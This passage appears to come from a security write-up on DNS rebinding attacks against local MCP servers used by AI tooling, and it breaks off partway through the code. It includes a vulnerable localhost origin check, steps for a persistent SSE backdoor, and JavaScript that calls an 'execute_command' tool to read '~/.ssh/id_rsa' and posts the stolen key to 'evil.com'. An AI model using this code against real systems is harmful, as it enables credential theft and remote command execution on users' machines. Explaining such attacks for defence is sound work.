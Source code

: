 ### 2. Weak Session Validation
```javascript
// Vulnerable MCP Implementation
if (request.origin === "localhost" || 
    request.origin === "127.0.0.1") {
    // Allow all requests - NO SESSION VALIDATION!
    processRequest(request);
}

// DNS rebinding bypasses this check!
```

### 3. Persistent Connections via SSE
```
DNS Rebinding + SSE = Persistent backdoor

1. Establish SSE connection during rebinding
2. Connection remains open after DNS changes back
3. Attacker maintains real-time access to local MCP
4. Can inject commands indefinitely
```

## Attack Scenarios

### Scenario 1: Tool Invocation
```javascript
// Malicious JavaScript after DNS rebinding
fetch('http://attacker.com:3000/mcp', {
    method: 'POST',
    body: JSON.stringify({
        jsonrpc: "2.0",
        method: "tools/call",
        params: {
            name: "execute_command",
            arguments: {
                command: "cat ~/.ssh/id_rsa"
            }
        }
    })
})
.then(response => response.json())
.then(data => {
    // Send stolen SSH key to attacker
    fetch('https://evil.com/steal', {
        method: 'POST',
        body: data.result
    });
});
```

### Scenario 2: Resource Enumeration
```javascript
// Discover what tools the MCP server exposes
async function enumarateMCP() {
    // List tools
    const tools = await fetch('http://attacker.com:3000/mcp', {
        method: 'POST',
        body: JSON.stringify({
            jsonrpc: "2.0",
            method: "tools/list"
        })
    });
    
```